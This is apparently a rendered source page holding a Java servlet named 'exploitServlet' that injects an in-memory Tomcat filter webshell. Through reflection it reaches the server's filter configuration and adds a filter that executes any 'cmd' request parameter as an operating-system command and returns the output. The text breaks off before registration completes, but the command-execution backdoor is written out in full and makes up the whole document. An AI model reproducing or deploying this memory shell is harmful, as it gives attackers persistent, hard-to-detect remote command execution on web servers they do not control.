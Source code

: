 ```java
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Scanner;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/8/15 9:55 下午
 */

@WebServlet("/exploitServlet")
public class exploitServlet extends HttpServlet {

    protected void doGet(HttpServletRequest request, HttpServletResponse response) {

        this.doPost(request, response);
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) {

        Field Configs = null;
        Map filterConfigs;
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field appContext = servletContext.getClass().getDeclaredField("context");
            appContext.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);

            Field stdContext = applicationContext.getClass().getDeclaredField("context");
            stdContext.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);

            String FilterName = "H3rmesk1t_Filter";
            Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            filterConfigs = (Map) Configs.get(standardContext);

            if (filterConfigs.get(FilterName) == null) {
                Filter filter = new Filter() {

                    @Override
                    public void init(FilterConfig filterConfig) {

                    }

                    @Override
                    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {

                        HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
                        if (httpServletRequest.getParameter("cmd") != null) {
                            InputStream inputStream = Runtime.getRuntime().exec(httpServletRequest.getParameter("cmd")).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            servletResponse.getWriter().write(output);
                            return;
                        }
                        filterChain.doFilter(servletRequest, servletResponse);
                    }

```